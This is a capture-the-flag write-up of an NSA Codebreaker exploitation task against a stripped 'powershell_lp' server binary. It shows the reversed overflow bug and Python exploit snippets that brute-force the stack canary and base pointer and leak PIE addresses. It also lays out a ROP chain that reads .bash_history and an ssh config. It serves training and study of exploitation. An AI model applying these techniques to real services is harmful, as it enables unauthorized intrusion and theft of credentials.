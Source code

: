 # NSACC Task 10 Writeup

## Prompt

> NSA worked with FBI to notify all of the identified victims, who in turn notified DC3. Nicely done.

> The final task is to uncover additional information about the actor's infrastructure.

> Gain access to the LP. Provide the IP and port that the psuser account has transmitted data to. What lies behind the listening post?

Categories: Protocol Analysis, Software Development, Exploit Development

Points: 5000

## Solve

### New binary, who dis? 

This challenge starts by exploring the threat actor's listening post. the goal of this operation is to gain access to the `psuser` account, and after poking around at the machine to find any privilege escalation, I determined that chances were very good we would be hacking into the only process that the `psuser` user was running, something called `powershell_lp`. It turns out that this is an implementation of the server side of the malware from Task 4, which is cool continuity to have in a long challenge like this. 

So we are faced with a new binary, and first we run `file` on it.

```sh
powershell_lp: ELF 64-bit LSB shared object, x86-64, version 1 (GNU/Linux), dynamically linked, for GNU/Linux 3.2.0, BuildID[sha1]=2d839ebf8fe71992878404be06a9f9ad655ec83b, stripped
```

Ugh, it's stripped of all symbols. This will be fun (NOT!). We open it up in Ghidra, and begin the days-long reversing and bug finding exercise. Some things that either increased or decreased this time:

- Using [ApplySig.py](https://github.com/NWMonster/ApplySig) to apply a database of libc signatures to the file ([libc6_2.26-0ubuntu3_amd64.sig](libc6_2.26-0ubuntu3_amd64.sig)) based on the output of `strings` showing the OS this was compiled on. this shortened the reversing time by a whole lot.
- Focusing reverse engineering on control-flow-touched code, not bothering to reverse all functions present in the binary, just those which are executed. This helped steer away from complex functions that are never called from main().
- Mistaking two different implementations of socket `recv()` for one another: Countless hours :(

### The Bug

Finding the bug in this code is the first step to exploiting it. Thankfully we know that there will be a bug, and it's just a matter of finding it. The bug was eventually located in this function that I named `recv()`. It is shown below:

```c
uint recv(int sockfd,char *buf,ulong size,undefined8 x,char *sockaddr,int *sockaddr_len)

{
  int bytes_recvd;
  int *piVar1;
  undefined4 extraout_var;
  uint bytes_recvd_total;
  
  bytes_recvd_total = 0;
  do {
    while( true ) {
      if ((uint)size <= bytes_recvd_total) {
        return bytes_recvd_total;
      }
      piVar1 = nothing_idk();
      *piVar1 = 0;
      bytes_recvd = recvfrom(sockfd,buf + bytes_recvd_total,size & 0xffffffff,0,sockaddr,
                             sockaddr_len);
      if (CONCAT44(extraout_var,bytes_recvd) < 1) break;
      bytes_recvd_total = bytes_recvd_total + bytes_recvd;
    }
    piVar1 = nothing_idk();
  } while (*piVar1 == 4);
  return bytes_recvd_total;
}
```

The bug here is that the `buf` variable is allocated to be 4104 bytes on the stack. This can be overflowed by sending two packets to this server while supplying `size` to be 4096 (the largest allowable). The first packet would be of size 4095, which will result in another call to `recvfrom()` with size still 4096. Sending another large packet (size >9) will cause `recvfrom()` to read off the end of `buf`, causing a buffer overrun. 

### Exploitation

The whole exploit script is present in [exploit.py](exploit.py). First step now that we have a buffer overflow is to inspect the protections on the binary. 

```sh
pwn checksec powershell_lp
	Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found #There is actually canary on certain functions
    NX:       NX enabled
    PIE:      PIE enabled
```

Based on that, we can determine:

- We will need a leak to break PIE
- Probably not GOT overwrite given RELRO
- Stack Canary will require leaking or cracking
- Shellcode on the stack is out as a result of NX

#### Breaking Stack Canary

The first step to make use of this buffer overrun will be to break the stack canary. Given that the program outputs the exit code of the children upon exit, we can determine whether a child failed due to a modified stack canary (code 6) or any other exit code indicating stack canary was correct. We use this to brute force the canary one byte at a time, using this exit code as an oracle to determine whether the byte is correct. That section of the exploit code is as follows:

```py
for y in range(1, 9):
    print(f"\nForcing Canary Byte {y}")

    for x in range(0, 256):
        if connect_send_check(buf2=buf + x.to_bytes(1, "big"), check=0):
            buf += x.to_bytes(1, "big")
            print(f"Working: {buf.hex()}")
            break

print(f"Solved Stack Canary: {buf[-8:].hex()}")
```

#### Brute Forcing `%RBP`

Once we have forced out way past the stack canary, we have to write past `%RBP` to get to the return address, however the program crashes if this value is clobbered, as the stack frame will not restore properly. Therefore, we perform a very similar procedure on the base pointer to ensure that the value that we set it to will result in a successful (exit code 0) outcome. that code is below:

```py
for y in range(1, 9):
    print(f"\nForcing %RBP Byte {y}")

    # try most common values first
    for x in [255, 127] + list(range(256)):
        if connect_send_check(buf2=buf + x.to_bytes(1, "big"), check=0):
            buf += x.to_bytes(1, "big")
            print(f"Working: {buf.hex()}")
            break

print(f"Solved %rbp: {buf[-8:].hex()}")
```

#### Return Address & Leak

Now, we have a valid stack canary and a valid base pointer. The next value to be overwritten is the return address. This cannot just wildly be overwritten, as this will result in a crash, and it cannot be overwritten with a static value as it is randomized with PIE. Therefore, we overwrite the last byte with `0xbe` to jump to a call to `fprintf()` which leaks code addresses, which can be recovered from the logfile. 

```py
connect_send_check(buf2=buf + bytes.fromhex("be"))

with open("../psuser/ps_data.log", "rb") as f:
    x = f.read()

i = 0

stack_leak = u64(x[-134:-126])
code2_leak = u64(x[-102:-94])
code_leak = u64(x[-6:] + i.to_bytes(2, "big"))

# calculate offsets

stack = stack_leak - 0x1F950
code2 = code2_leak - 0x5C40
code = code_leak - 0x6D4A9
```

#### It's ROPping Time! 

Now, we have all the ingredients that we need to perform ROP. I chose to use an `open()`, `read()`, `write()` ROP payload, which is assembled using the perfect gadgets provided in this massive binary. In pseudocode, this is what our ROP does:

```
str = &write_to_scratch_space("/home/psuser/.bash_history\x00")
open(str, 0, 0)
read(5, str, 0x1000) // we know that the fd will be 5, as the logfile is fd 3 and the data file is fd 4
write(3, str, 0x1000)
```

This dumps the file contents to the logfile, and we indeed see the contents of the `.bash_history`:

```
...
man scp
scp -P 28222 ~/ps_data.log nexthop:
```

This step is repeated to print the ssh config in order to fully solve task 10:

```
Host nexthop
    Hostname: 10.62.55.52
    User: user
    IdentityFile: /home/psuser/.ssh/id_rsa
```